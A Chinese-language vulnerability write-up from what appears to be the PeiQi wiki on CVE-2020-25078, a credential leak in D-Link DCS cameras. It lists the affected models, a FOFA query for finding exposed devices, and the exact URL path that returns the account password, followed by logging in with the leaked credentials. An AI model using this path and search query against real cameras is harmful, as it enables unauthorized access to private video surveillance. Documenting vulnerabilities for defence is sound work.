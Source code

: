 ```yaml
---
title: D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - D-Link
---
```


# D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面



## 漏洞影响

> [!NOTE]
>
> DCS-2530L
> DCS-2670L
> DCS-4603
> DCS-4622
> DCS-4701E
> DCS-4703E
> DCS-4705E
> DCS-4802E
> DCS-P703

## FOFA

> [!NOTE]
>
> app="D_Link-DCS-2530L"

## 漏洞复现

访问登录页面如下

![](/img/20210924015410217900.png)

出现漏洞的 Url 为, 其中泄露了账号密码

```
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```

![](/img/20210924015410362763.png)

使用泄露的账号密码登陆系统

![](/img/20210924015410513975.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> D_Link_DC_Disclosure_of_account_password_information

![](/img/20210924015411214028.png)